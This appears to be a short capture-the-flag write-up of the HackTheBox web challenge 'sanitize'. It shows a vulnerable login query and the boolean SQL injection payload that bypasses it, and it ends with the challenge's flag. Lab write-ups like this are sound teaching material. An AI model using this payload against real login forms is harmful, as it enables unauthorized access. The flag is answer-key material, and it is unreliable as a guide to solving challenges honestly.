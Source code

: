 ```yaml
---
title: sanitize
date: 2021-03-07 12:00:00 +0800
categories: [HackTheBox, Challenges (Web)]
tags: ["sql injection"]
image: /assets/posts/ctf/hackthebox/challenges/web/sanitize/sanitize.png
---
```


# TL;DR

---

> Boolean based SQL Injection (SQLi)

---

# Exploitation

---

Accessing `http://139.59.163.220:30454/` shows the following web page:

![Landing Page](/assets/posts/ctf/hackthebox/challenges/web/sanitize/landing.png)
_Landing page_

We submitted `test'` with `single quote (')` threw SQL syntax error.

![SQL error](/assets/posts/ctf/hackthebox/challenges/web/sanitize/error.png)
_SQL syntax error when single quote is parsed_

Backend SQL query as follows:

```sql
select * from users where username = '$username' AND password = '$password';
```

To exploit, simply inject with `boolean true` SQL injection as follows:

```sql
select * from users where username = '' or 1=1;-- -' AND password = '$password';
```

![Flag](/assets/posts/ctf/hackthebox/challenges/web/sanitize/flag.png)
_Flag captured_

Flag: 

> HTB{SQL_1nj3ct1ng_my_w4y_0utta_h3r3}

---